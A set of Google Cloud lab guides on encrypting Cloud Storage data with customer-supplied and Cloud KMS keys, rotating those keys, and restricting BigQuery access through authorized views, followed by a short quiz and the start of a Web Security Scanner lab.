**Note:** A bucket must have a globally unique name. For this lab you will use your Google Cloud project ID as part of the bucket name to help ensure it will be unique. Your Google Cloud project ID can be copied from the **Connection Details** pane in Qwiklabs.

1. From the **SSH** terminal connected to the **cseklab-vm**, run the following command to create an environment variable to store the name of your bucket:

```
export BUCKET_NAME=[PUT Google_Cloud_PROJECT_ID HERE]-csek
```

Copied!

1. Enter the following command to create the bucket:

```
gsutil mb -l us gs://$BUCKET_NAME
```

Copied!

Click *Check my progress* to verify the objective.

Configure required resources


Check my progress


##### Download a sample file using CURL and make two copies

1. Use the following command to download a sample file (this sample file is a publicly available Hadoop documentation HTML file). This file will be copied into the lab's storage bucket:

```
curl \
https://hadoop.apache.org/docs/current/\
hadoop-project-dist/hadoop-common/\
ClusterSetup.html > setup.html
```

Copied!

1. Make two copies of the file:

```
cp setup.html setup2.html
cp setup.html setup3.html
```

Copied!

#### Task 2. Configure customer-supplied encryption keys

In this task, you generate a CESK key, upload the file to the Cloud Console, and then delete the local copy.

##### Generate a CSEK key

**Note:** When using customer-supplied encryption keys, it is up to you to generate and manage your encryption keys. You must provide Cloud Storage a key that is a 256-bit string encoded in [RFC 4648 standard base64](https://tools.ietf.org/html/rfc4648#section-4). For this lab, you will generate a key with a random number.

1. In the **cseklab-vm** SSH terminal, run the following command to create a key:

```
openssl rand 32 > mykey.txt
openssl base64 -in mykey.txt
```

Copied!

**Example output:**

```
tmxElCaabWvJqR7uXEWQF39DhWTcDvChzuCmpHe6sb0=
```

1. Copy the value of the generated key. You will require this for a later step.

##### Modify the .boto file

**Note:** The encryption controls are contained in a **gsutil** configuration file named **.boto**.

1. Run the following command in the SSH terminal to verify the **.boto** file exists:

```
ls -al
```

Copied!

1. If you do not see a **.boto** file run the following commands to generate and list it:

```
gsutil config -n
ls -al
```

Copied!

1. To edit the **.boto** file, run the following command:

```
nano .boto
```

Copied!

1. Within the **.boto** file, locate the line with "**#encryption_key=**". To search in Nano, click the keyboard located in the top right of the **SSH** window, select **Ctrl+W** and type `#encrypt`.


1. Uncomment the encryption_key line by removing the **#** character, and paste the key you generated earlier.

**Example:**

```
Before:
# encryption_key=
After:
encryption_key=tmxElCaabWvJqR7uXEWQF39DhWTcDvChzuCmpHe6sb0=
```

1. Press **Ctrl+X** to Exit, **Y** to save the file, then **Enter** to confirm the filename.

##### Upload files (encrypted) and verify in the Cloud Console

1. Run the following commands to upload two files:

```
gsutil cp setup.html gs://$BUCKET_NAME
gsutil cp setup2.html gs://$BUCKET_NAME
```

Copied!

1. Return to the Cloud Console and view the storage bucket contents by selecting **Navigation menu > Cloud Storage**, then click on the bucket.

**Note:** Both the setup.html and setup2.html files show that they are customer-encrypted.

Click *Check my progress* to verify the objective.

Configuring customer-supplied encryption keys


Check my progress


##### Delete a local file, copy from Cloud Storage, and verify encryption

1. Delete the local **setup.html** file, run the following command:

```
rm setup.html
```

Copied!

1. To copy the file back from the bucket, run the following command:

```
gsutil cp gs://$BUCKET_NAME/setup.html ./
```

Copied!

1. View the file to see whether they made it back with the following command:

```
cat setup.html
```

Copied!

#### Task 3. Rotate CSEK keys

In this task, you rotate CSEK keys. To rotate CSEKs, you change your encryption_key configuration value to a decryption_key configuration value and then use a new value for the encryption_key.

Then you can use the rewrite command to rotate keys in the cloud without downloading and re-uploading the data.

##### Generate another CSEK key and add to the boto file

1. In the SSH terminal, run the following command to generate a new key:

```
openssl rand 32 > mykey.txt
openssl base64 -in mykey.txt
```

Copied!

1. Copy the value of the generated key from the command output. Key should be in form of `tmxElCaabWvJqR7uXEWQF39DhWTcDvChzuCmpHe6sb0=`.
2. To open the boto file, run the following command:

```
nano .boto
```

Copied!

1. Locate the current **encryption_key** line and comment it out by adding the # character to the beginning of the line.
2. Add a new line with **encryption_key=** and paste the new key value.

**Output:**

```
Before:
encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=

After:

# encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=

encryption_key=HbFK4I8CaStcvKKIx6aNpdTse0kTsfZNUjFpM+YUEjY=
```

1. Uncomment the **decryption_key1=** line by removing the # character.
2. Copy the value of the original **encryption_key** from the line that was commented out, and paste it for the value of the **decryption_key1** line.

**Output:**

```
Before:
# encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=
encryption_key=HbFK4I8CaStcvKKIx6aNpdTse0kTsfZNUjFpM+YUEjY==
# decryption_key1=

After:

# encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=

encryption_key=HbFK4I8CaStcvKKIx6aNpdTse0kTsfZNUjFpM+YUEjY==
decryption_key1=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=
```

The original encryption_key line that is commented out can also be completely deleted from the file.

1. Press **Ctrl+X** to Exit, **Y** to save the file, then **Enter** to confirm the filename.

##### Encrypt a file with the new key and decrypt a file with the old key

1. Upload a new file to the bucket. This file will be encrypted with the new key:

```
gsutil cp setup3.html gs://$BUCKET_NAME
```

Copied!

**Note:** At this point, setup.html and setup2.html are encrypted with the original key and setup3.html is encrypted with the new key.

1. Delete the local **setup2.html** and **setup3.html** files with the following commands:

```
rm setup2.html
rm setup3.html
```

Copied!

1. To copy the files back from the storage bucket, run the following commands:

```
gsutil cp gs://$BUCKET_NAME/setup2.html ./
gsutil cp gs://$BUCKET_NAME/setup3.html ./
```

Copied!

1. View the encrypted file to see whether they made it back with the following commands:

```
cat setup2.html
cat setup3.html
```

Copied!

**Note:** This lab demonstrates how new keys can be generated for new data, but note that files encrypted with the older keys can still be decrypted.

##### Rewrite the key for file 1 and comment out the old decrypt key

Rewriting an encrypted file causes the file to be decrypted it using the decryption_key1 that you previously set, and encrypts the file with the new encryption_key.

1. Run the following command to rewrite setup.html

```
gsutil rewrite -k gs://$BUCKET_NAME/setup.html
```

Copied!

**Note:** At this point, setup.html has been rewritten with the new encryption key and setup3.html is encrypted with the new key as well. The setup2.html file is still encrypted with the original key so that you can see what happens if you don't rotate the keys properly.

1. Open the boto file with the following command:

```
nano .boto
```

Copied!

1. Comment out the current **decryption_key1** line by adding the # character back in.
2. Press **Ctrl+X** to Exit, **Y** to save the file, then **Enter** to confirm the filename.
3. Delete all three local files with the following command:

```
rm setup*.html
```

Copied!

1. Download **setup.html** and **setup3.html** (both encrypted with the new key) with following commands:

```
gsutil cp gs://$BUCKET_NAME/setup.html ./
gsutil cp gs://$BUCKET_NAME/setup3.html ./
```

Copied!

1. View the encrypted files to see whether they made it back through the process using the following commands:

```
cat setup.html
cat setup3.html
```

Copied!

1. Try to download **setup2.html** (encrypted with the original key) using the following command:

```
gsutil cp gs://$BUCKET_NAME/setup2.html ./
```

Copied!

**Note:** What happened? **setup2.html** was not rewritten with the new key, so it can no longer be decrypted, and the copy failed.

You have successfully rotated the CSEK keys.

#### Congratulations!

In this lab, you have done the following:

- Configured CSEK for Cloud Storage.
- Utilized CSEK to encrypt files in Cloud Storage.
- Deleted local files from Cloud Storage and verified encryption.
- Rotated your encryption keys without downloading and re-uploading data.


### LAB - Using Customer-Managed Encryption Keys with Cloud Storage and Cloud KMS

#### Overview

[Cloud Key Management Service](https://cloud.google.com/security-key-management) (Cloud KMS) allows you to manage encryption keys on Google Cloud. Encryption keys are created by Cloud KMS and managed by you in the same manner you would manage them on-premises.

Using Cloud KMS you can generate, use, rotate and destroy AES256 symmetric encryption keys for direct use by all of your cloud services.

In this lab, you will use Cloud KMS to create KeyRings and CryptoKeys and then use those keys with Cloud Storage to set default keys on buckets, and encrypt individual objects with a Cloud KMS key.

Additionally, you will manually perform server-side encryption with your Cloud KMS keys, and upload encrypted data to Cloud Storage.

Cloud KMS permissions will be managed with IAM, and Cloud Audit Logs will be used to view all activity for CryptoKeys and KeyRings.

##### Objectives

In this lab, you will learn how to do the following:

- Manage keys and encrypted data using Cloud KMS.
- Create KeyRings and CryptoKeys.
- Set a default encryption key for a storage bucket.
- Encrypt an object with a Cloud KMS key.
- Rotate encryption keys.
- Perform server-side encryption manually with Cloud KMS keys.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1: Configure required resources

In this task, you configure the required resources for this lab.

##### Create a Cloud Storage bucket

**Note:** A bucket must have a globally unique name. For this lab, you will use your Google Cloud project ID as part of the bucket name to help ensure it will be unique. Your Google Cloud project ID is automatically stored in a Cloud Shell environment variable named `DEVSHELL_PROJECT_ID`.

1. On the Google Cloud Console title bar, click **Activate Cloud Shell** (). If prompted, click **Continue**.
2. Run the following command to create the bucket:

```
gsutil mb -l us-west1 gs://$DEVSHELL_PROJECT_ID-kms
```

Copied!

1. Run the following commands to create a few sample files that will be uploaded to the bucket:

```
echo "This is sample file 1" > file1.txt
echo "This is sample file 2" > file2.txt
echo "This is sample file 3" > file3.txt
```

Copied!

1. Run the following command to copy **file1.txt** to the bucket:

```
gsutil cp file1.txt gs://$DEVSHELL_PROJECT_ID-kms
```

Copied!

##### Enable Cloud KMS

**Note:** Before using Cloud KMS you need to enable it in your project. In the Qwiklab Google Cloud Project you have been provisioned, Cloud KMS should already have been enabled. Just to be safe, you will issue the command to enable it anyway.

- Run the following command in Cloud shell to enable Cloud KMS:

```
gcloud services enable cloudkms.googleapis.com
```

Copied!

Click *Check my progress* to verify the objective.

Create a Cloud Storage bucket


Check my progress


#### Task 2. Use Cloud KMS

In this task, you use Cloud KMS to create a keyring and a cryptokey.

##### Create a KeyRing and CryptoKey

**Note:** In order to encrypt data, you need to create a KeyRing and a CryptoKey. KeyRings are useful for grouping keys. Keys can be grouped by environment (like test, staging, and prod) or by some other conceptual grouping. For this lab, your KeyRing will be called **test** and your CryptoKey will be called **labkey**.

1. In Cloud Shell, run the following commands to create variables to hold the KeyRing name and CryptoKey name:

```
KEYRING_NAME=lab-keyring
CRYPTOKEY_1_NAME=labkey-1
CRYPTOKEY_2_NAME=labkey-2
```

Copied!

1. Execute the following command to create the KeyRing.

```
gcloud kms keyrings create $KEYRING_NAME --location us-west1
```

Copied!

1. Next, using the new KeyRing, create a CryptoKey named **labkey-1**:

```
gcloud kms keys create $CRYPTOKEY_1_NAME --location us-west1 \
--keyring $KEYRING_NAME --purpose encryption
```

Copied!

1. Create another CryptoKey named **labkey-2**:

```
gcloud kms keys create $CRYPTOKEY_2_NAME --location us-west1 \
--keyring $KEYRING_NAME --purpose encryption
```

Copied!

You can view the KeyRing and keys in the Cloud Console.

1. In the Cloud Console, go to **Navigation menu > Security > Key Management**.

You will see the KeyRing named **lab-keyring**.

1. Click on the KeyRing named **lab-keyring** to view the encryption keys named **labkey-1** and **labkey-2**.


Click *Check my progress* to verify the objective.

Create a Keyring and Cryptokey


Check my progress


#### Task 3. Add a default key for a bucket

In this task, you add a default key for your bucket.

##### View the current default key for a bucket

- Run the following command to view the default encryption key for your bucket:

```
gsutil kms encryption gs://$DEVSHELL_PROJECT_ID-kms
```

Copied!

**Note:** The bucket should not currently have a default encryption key. This means all data in the bucket will be encrypted by Google-managed encryption keys.

##### Assign Cloud KMS keys to a service account

- Run the following commands to give your Cloud Storage service account permission to use both of your Cloud KMS keys:

```
gsutil kms authorize -p $DEVSHELL_PROJECT_ID -k \
projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\
/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME
gsutil kms authorize -p $DEVSHELL_PROJECT_ID -k \
projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\
/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_2_NAME
```

Copied!

The general syntax of the above commands is given below:

```
gsutil kms authorize -p [PROJECT_STORING_OBJECTS] -k [KEY_RESOURCE]
```

Where *[KEY_RESOURCE]* is in the format:

```
projects/[PROJECT_STORING_KEYS]/locations/[LOCATION]/keyRings/[KEY_RING_NAME]/cryptoKeys/[KEY_NAME]
```

Copied!

##### Set the default key for a bucket

A Cloud KMS key can be set as the default key when objects are written to a bucket.

When setting the default key, the key resource must be specified in the same format as the previous command: `projects/[PROJECT_STORING_KEYS]/locations/[LOCATION]/keyRings/ [KEY_RING_NAME]/cryptoKeys/[KEY_NAME]`.

1. Run the following command to set the default key for your bucket to the first key you generated:

```
gsutil kms encryption -k \
projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\
/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME \
gs://$DEVSHELL_PROJECT_ID-kms
```

Copied!

1. Run the following command to view the default key for the bucket to verify the last command was successful:

```
gsutil kms encryption gs://$DEVSHELL_PROJECT_ID-kms
```

Copied!

The default encryption key for the bucket should now be your first encryption key.

**Note:** Objects that were written to a bucket prior to adding or changing the default key remain encrypted with the previous encryption method.

1. Run the following command to copy **file2.txt** to the bucket:

```
gsutil cp file2.txt gs://$DEVSHELL_PROJECT_ID-kms
```

Copied!

##### View the files in the bucket

- In the Cloud Console, go to **Navigation menu > Cloud Storage > Bucket** and click on your bucket for this lab.

You will see **file 1** was encrypted with a Google-managed key and **file 2** was encrypted with a customer-managed key.

Click *Check my progress* to verify the objective.

Add a default key for the bucket


Check my progress


#### Task 4. Encrypt individual objects with a Cloud KMS key

In this task, you encrypt an individual object with a Cloud KMS key. This is useful if you want to use a different key from the default key set on the bucket, or if you don't have a default key set on the bucket. This can be done by passing the key to use in each gsutil command by using the `-o` flag: `-o "GSUtil:encryption_key=[KEY_RESOURCE]"`

1. Run the following command to copy **file3.txt** to the bucket, encrypting it with your second encryption key:

```
gsutil -o \
"GSUtil:encryption_key=projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\
/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_2_NAME" \
cp file3.txt gs://$DEVSHELL_PROJECT_ID-kms
```

Copied!

1. In the Cloud Console, refresh the **Bucket details** screen and you will see **file3.txt** is also encrypted with a customer-managed key.

##### Identify the key used to encrypt an object

In the Cloud Console, look at the encryption column. It shows you what kind of key is used: a Google-managed key or a customer-managed key. If you hover over the key, you can get details about the key. You can also get key details using gsutil, which you will do in the next step.

1. Run the following command to display details about an object (the **-L** option causes **gsutil ls** to display all file details):

```
gsutil ls -L gs://$DEVSHELL_PROJECT_ID-kms/file3.txt
```

Copied!

1. In the information returned, locate the KMS key line.

This displays the encryption key being used by that file.

1. Run the previous command again for **file1.txt** and **file2.txt**.

Click *Check my progress* to verify the objective.

Encrypt individual objects with a Cloud KMS key


Check my progress


#### Task 5. Perform key rotation

In this task, you perform automatic and manual key rotation.

**Note:** In Cloud KMS, a key rotation is triggered by generating a new version of a key, and marking that version as the primary version. Each key has a designated primary version at any point in time, which Cloud KMS uses to encrypt data. After rotating a key, its previous key versions (which no longer are primary) are neither disabled or destroyed, and remain available for decrypting data.

##### Automatically rotate keys

**Note:** By providing a rotation schedule, Cloud KMS will automatically rotate your keys for you. A key's rotation schedule can be set using the gcloud command-line tool or via the Cloud Console.

1. In the Cloud Console, go to **Navigation menu > Security > Key Management** and click on the KeyRing named **lab-keyring** to view your encryption keys named **labkey-1** and **labkey-2**.
2. Click on the key named **labkey-1** to view all versions.

Currently you only have one version.

1. Click the **EDIT ROTATION PERIOD** button.
2. Set the **rotation period** dropdown to **30 days**.

Notice that the rotation period can also be set to a Custom period that allows you to specify any desired period.

1. Click **SAVE**.

The Cloud Console now displays the next rotation date for this key.

##### Manually rotate keys

**Note:** Manually rotating keys can also be done with the gcloud command-line tool or via the Cloud Console.

1. In the Cloud Console, go back to the KeyRing named **lab-keyring** and click on the key named **labkey-2** to view all versions.
2. Click the **Rotate Key** button and then click **Rotate**.

You now have two versions of this key, `version 2` is the primary one.

**Note:** Using the key rotation commands above, key rotation does NOT re-encrypt already encrypted data with the newly generated key version. If you suspect unauthorized use of a key, you should re-encrypt the data protected by that key and then disable or schedule destruction of the prior key version.

##### Destroy old keys

**Note:** If you destroy a key that encrypts existing objects, you will be unable to recover that data, but you will continue to be charged for storage of your objects until you delete them.

In this part, you will not actually destroy a key, but you will investigate the process for doing so.

1. From the **labkey-2** versions screen, click the three vertical dots on the far right of the line for `version 1` of the key and select **Destroy**.
2. Read the message in the **Schedule key version 1 for destruction** and click **Cancel** when done.

You have successfully used Cloud KMS keys to encrypt data in Cloud Storage.

Click *Check my progress* to verify the objective.

Key Rotation


Check my progress


#### Bonus task. Encrypt data with the REST API

The Cloud KMS service also provides a REST API to perform encryption and decryption. The content to be encrypted is specified as part of a JSON document in the REST request, and this content must be encoded using Base64 encoding. This JSON document has the following form:

`{"plaintext":"Base64 encoded data to encrypt"}`.

In this bonus section to the lab, you will manually invoke the REST api using curl commands to demonstrate the capability of the API.

1. This section assumes you still have the Cloud Shell session open and the following environment variables are defined:

```
KEYRING_NAME
CRYPTOKEY_1_NAME
```

`CRYPTOKEY_2_NAME`.

If these variables are no longer defined, go back to earlier in the lab and run the commands to create these variables.

1. Run the following command to encode some sample text as base64 and store it in a variable named **PLAIN_TEXT**:

```
PLAIN_TEXT=$(echo -n "Some text to be encrypted" | base64)
```

Copied!

1. Echo the PLAIN_TEXT variable to verify the text was encoded:

```
echo $PLAIN_TEXT
```

Copied!

You should see the base64-encoded text.

1. Use the REST API to encrypt the encoded text by calling the `encrypt` method of your key.
2. Supply the base64-encoded content in the plaintext field of the JSON for your request:

```
curl \
"https://cloudkms.googleapis.com/v1/projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME:encrypt" \
-d "{\"plaintext\":\"$PLAIN_TEXT\"}" \
-H "Authorization:Bearer $(gcloud auth application-default \
print-access-token)" \
-H "Content-Type: application/json"
```

Copied!

The response will be a JSON payload containing the encrypted text in the ciphertext field.

**Note:** The encrypted text can easily be extracted from the JSON response, and saved to a file by using the command-line utility **jq**. The response from the previous call can be piped into **jq**, which can parse out the **ciphertext** property and save to **data1.encrypted**.

1. Run the following command that repeats the encryption, but this time parses out the **ciphertext** property and saves it to the **data1.encrypted** file:

```
curl \
"https://cloudkms.googleapis.com/v1/projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME:encrypt" \
-d "{\"plaintext\":\"$PLAIN_TEXT\"}" \
-H "Authorization:Bearer $(gcloud auth application-default \
print-access-token)" \
-H "Content-Type: application/json" \
| jq .ciphertext -r > data1.encrypted
```

Copied!

1. View the contents of the **data1.encrypted** file with the following command:

```
more data1.encrypted
```

Copied!

**Note:** The encrypted text can be decrypted by calling the decrypt method of your key. You must use the same key that was used to encrypt the content.

1. Run the following command to decrypt the contents in the **data1.encrypted** file and save it into the file named **data1.decrypted**:

```
curl -v \
"https://cloudkms.googleapis.com/v1/projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME:decrypt" \
-d "{\"ciphertext\":\"$(cat data1.encrypted)\"}" \
-H "Authorization:Bearer $(gcloud auth application-default \
print-access-token)" \
-H "Content-Type:application/json" \
| jq .plaintext -r | base64 -d > data1.decrypted
```

Copied!

1. View the contents of the **data1.decrypted** file with the following command:

```
more data1.decrypted
```

Copied!

You have successfully used Cloud KMS keys.

#### Congratulations!

In this lab, you have done the following:

1. Managed keys and encrypted data using Cloud KMS.
2. Created KeyRings and CryptoKeys.
3. Set a default encryption key for a storage bucket.
4. Encrypted an object with a Cloud KMS key.
5. Rotated encryption keys.
6. Manually performed server-side encryption with Cloud KMS keys.


### LAB - Creating a BigQuery Authorized View

#### Overview

When using [BigQuery](https://cloud.google.com/bigquery), permissions are configured at the dataset level. Frequently, data engineering teams maintain datasets with many large tables of raw data, but they want to share subsets of these tables with particular analyst audiences.

For example, analysts might have access to a version of a table that excludes columns with user-specific information. Or, perhaps a specific user should be able to see only specific rows from a given BigQuery table or view.

In this lab, you will learn how to create and use Authorized Views in BigQuery. You will also learn how to do row-level filtering using information about the logged-in user.

This lab will provide two Google Cloud users. This is so the BigQuery authorized view permissions can be verified by logging in as a different user.

##### Objectives

In this lab, you will learn how to perform the following tasks:

- Set permissions on BigQuery datasets.
- Use Authorized Views to provide audiences read-only access to subsets of tables.
- Use the `SESSION_USER()` function to limit access to specific rows within a table/view.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Create the source dataset

In this task, you create the source dataset in BigQuery that will be used in this lab.

##### Create a new BigQuery dataset

1. In the Cloud Console, open the BigQuery user interface by selecting **Navigation menu > BigQuery**, then click **Done**.
2. Create a new dataset within your project by clicking the three dots next to your project ID in the **Explorer** section, then click on **Create dataset**.
3. Enter `source_data` for **Dataset ID**, and click on **Create Dataset** (accepting the other default values).

##### Create a new BigQuery table with source data

1. Click **Activate Cloud Shell** to open Cloud Shell. If prompted, click **Continue**.
2. Load the source data into a new table in BigQuery by entering the following in Cloud Shell:

```
bq load --autodetect $DEVSHELL_PROJ:source_data.events gs://cloud-training/gcpsec/labs/bq-authviews-source.csv
```

Copied!

1. In the BigQuery console, review the loaded data by drilling down to `[your_project_id].source_data.events` in the **Explorer** section and clicking **Preview**.

**Note:** You may need to refresh the browser to see the **events** table.

**Note:** This table has simulated data related to events generated by users of a videoconferencing application. Note that each row has information about the user who generated the event.

1. To ensure a future step will work as intended, enter the following query in the BigQuery **Editor**. Replace `<2nd qwiklabs user>` with `Username 2` in the qwiklabs console.

```
update source_data.events
set email='<2nd qwiklabs user>'
where email='rhonda.burns@example-dev.com'
```

Copied!

1. Click **RUN** and wait for the 68 rows to be updated with a new email address.

Click *Check my progress* to verify the objective.

Create the source dataset


Check my progress


#### Task 2. Create the analyst dataset

In this task, you create the analyst dataset, create a redacted view for the analysts, and create a second view for logged-in users.

##### Create a dataset

1. Create a new dataset within your project by clicking the three dots next to your project ID in the **Explorer** section, then click on **Create dataset**.
2. Enter `analyst_views` for **Dataset ID**, and click on **Create Dataset** (accepting the other default values).

###### Create a redacted view for analysts

1. In the BigQuery **Editor** area, enter the following SQL to get event data excluding the user-specific information:

```
SELECT
  date,
  type,
  company,
  call_duration,
  call_type,
  call_num_users,
  call_os,
  rating,
  comment,
  session_id,
  dialin_duration,
  ticket_number,
  ticket_driver
FROM
  `[your_project_id].source_data.events`
```

Copied!

**Note:** Make sure to replace the `[your_project_id]` with the Qwiklabs-created project id.

1. **Run** the query and review the results. Note that the user information is not included.
2. Save the entered query as a view by clicking **Save > Save view**.
3. Select your project, and the **analyst_views** dataset.
4. Enter a destination table name of `no_user_info` and click **Save**. Note, though the UI says destination table, you are only creating a view, not a table.
5. Check that the view works by navigating in the **Explorer** section to **[your_project_id].analyst_views.no_user_info**. You should see the schema information for the view, which excludes user information columns.
6. Click on **no_user_info** view. Click **QUERY > In new tab** and enter `*` into the SELECT statement so that your SQL query looks like this:

```
SELECT
  *
FROM
  `[your_project_id].analyst_views.no_user_info`
LIMIT
  1000
```

Copied!

1. **Run** the query and you should see results similar to those in above step, but without user data.

##### Create a second view, showing only rows for logged-in user

Next, create a 2nd view using the following information.

1. Enter the Query in the BigQuery **Editor**.

**Note:** Make sure to replace the `[your_project_id]` with the Qwiklabs-created project id.

```
SELECT
  *
FROM
  `[your_project_id].source_data.events`
WHERE
  email = SESSION_USER()
```

Copied!

1. Click **Run**.
2. Save the entered query as a view by clicking **Save > Save view**.
3. Select your project, and the **analyst_views** dataset.
4. Enter a destination table name of `row_filter_session_user` and click **Save**.

**Note:** This 2nd view allows users to see their own events, but no one else's.

Click *Check my progress* to verify the objective.

Create the analyst dataset


Check my progress


#### Task 3. Secure the analyst dataset

In this task you share the analyst dataset with Username 2, and secure it by providing the Viewer role.

##### Share the dataset

1. In the dataset listing to the left of the screen, click on the **analyst_views** dataset.
2. Then select **Sharing** from the right pane and click on **Permissions**.
3. Click **Add Principal**. In the **New principals** field, enter the email address of the 2nd lab account (Username 2) shown in the **Connection Details** section of the Qwiklabs lab page.
4. Select **BigQuery Data Viewer** as the role and click **Save**.
5. Click **Close**.

#### Task 4. Secure the source dataset

In this task, you secure the source dataset. You don't want analysts and others outside the data engineering team to have access to the raw data available in the source dataset, so you are going to restrict access.

You do want those using the views you've created to be able to see the data the views produce. This will require authorizing not the users, but the views.

##### Share the dataset

1. In the dataset listing to the left of the screen, click on the **source_data** dataset.
2. Then select **Sharing** from the right pane and click on **Permissions**.
3. Expand the **BigQuery Data Viewer** principal from the permission list and click on the trash icon next to it and click **Remove** to confirm. Click **Close**.
4. In **Sharing**, click on **Authorize Views** .
5. In the **Authorized views**, choose the following settings.

| **Authorized view** | `no_user_info` |
| ------------------- | -------------- |
|                     |                |

1. Click **Add Authorization**.
2. Add another entry with these settings replacing the existing view.

| **Authorized view** | `row_filter_session_user` |
| ------------------- | ------------------------- |
|                     |                           |

1. Click **Add Authorization**.
2. Click **Close**.

Click *Check my progress* to verify the objective.

Secure the datasets


Check my progress


#### Task 5. Test your security settings

In this task, you test the security settings that you applied in previous tasks.

##### Sign in to the Cloud Console as the second user

1. Open another tab in your incognito window.
2. Browse to the [Cloud Console](http://console.cloud.google.com/).
3. Click on the user icon in the top-right corner of the screen, and then click **Add account**.
4. Sign in to the Cloud Console with the **Username 2** provided in Qwiklabs.

##### Check access to the analyst views

1. In the Cloud Console, open the BigQuery user interface by selecting **Navigation menu > BigQuery**, then click **Done**.
2. Verify that you can run queries against the **no_user_info** view by executing the following query:

```
SELECT
  *
FROM
  `analyst_views.no_user_info`
WHERE
  type='register'
```

Copied!

You should see a result set with all the user registration events within the table.

1. Verify that you can query the `row_filter_session_user` view, only seeing the rows associated with your account, by executing the following query:

```
SELECT
  *
FROM
  `analyst_views.row_filter_session_user`
```

Copied!

You should see a result set with 68 rows specific to the second Qwiklabs user.

Check access to the source dataset

1. Try accessing the raw data in the events table directly using the following query:

```
SELECT
  *
FROM
  `source_data.events`
```

Copied!

You will see an **Access denied** error message indicating that you don't have permissions.

1. Try navigating to the source_data dataset via the **Explorer** section of the UI. This should also be disallowed.

**Note:** The 2nd Qwiklabs user has permissions to view tables and views in the **analyst_views** dataset, but does not have permissions to view anything in the **source_data** dataset.


When the user queries the view, the view itself has permissions necessary to operate against the table in the **source_data** dataset, and it then returns that data to the user.


The row-filtering view gets the user's email address and uses that to filter the rows visible. Every user who queries this view will get different results, specifically the rows with her email in the email column.

#### Congratulations!

In this lab, you have learned how to do the following:

- Set permissions on BigQuery datasets.
- Authorize Views to provide audiences read-only access to subsets of tables.
- Use the `SESSION_USER()` function to limit access to specific rows within a table/view.

### QUIZ

1. Which TWO of the following statements is TRUE with regards to security in BigQuery and its datasets?

- Using IAM, you can grant users granular permissions to BigQuery tables, rows and columns.

- **BigQuery has its own list of assignable IAM roles.**

  Correct! BigQuery role names are mapped to job functions, such as BigQuery admin or BigQuery Data Viewer.

- It is always better to assign BigQuery roles to individuals as this will help to lower operational overhead.

- **A BigQuery Authorized View allows administrators to restrict users to viewing only subsets of a dataset.**

  Correct! Views provide row or column level permissions to datasets.

2. Which TWO of the following statements are TRUE when discussing Cloud Storage and IAM permissions?

- Using IAM permissions alone gives you control over your projects, buckets, and individual objects.

- **Access can be granted to Cloud Storage at the organization, folder, project, or bucket levels.**

  Correct! Besides general access, you can also control what level of access members have.

- A user needs permission from both IAM or an ACL to access a bucket or object.

- **Using deny rules prevent certain principals from using certain permissions, regardless of the roles they're granted.**

  Correct! You can define deny rules that prevent certain principals from using certain permissions, regardless of the roles they're granted.

3. Which TWO of the following statements are TRUE when discussing storage and BigQuery best practices?

- In most cases, you should use Access Control Lists (ACLs) instead of IAM permissions.

- BigQuery data can be adequately secured using the default basic roles available in Google Cloud.

- **One option to serve content securely to outside users is to use signed URLs.**

  Correct! Using signed URLs, content can be securely made available to users who do not have Google accounts.

- **Do not use any personally identifiable information as object names.**

  Correct! Storage names often appear in URLs, so any information that is critical to maintaining system or data security should not be used in an object name.


# Application Security: Techniques and Best Practices


## LAB - Identify Application Vulnerabilities with Security Command Center

### Overview

Web Security Scanner (WSS) is one of [Security Command Center's](https://cloud.google.com/security-command-center) built-in services that can be used to identify security vulnerabilities in App Engine, Google Kubernetes Engine (GKE), and Compute Engine web applications.

This service crawls your application, following all links within the scope of your starting URLs, and attempts to exercise as many user inputs and event handlers as possible. It can automatically scan and detect four common vulnerabilities, including cross-site-scripting (XSS), flash injection, mixed content (HTTP in HTTPS), and outdated/insecure libraries.

Web Security Scanner enables early identification of vulnerabilities and delivers very low false positive rates. You can easily set up, run, schedule, and manage security scans.

In this lab, you use Web Security Scanner to scan a Python Flask application for vulnerabilities.

#### Objectives

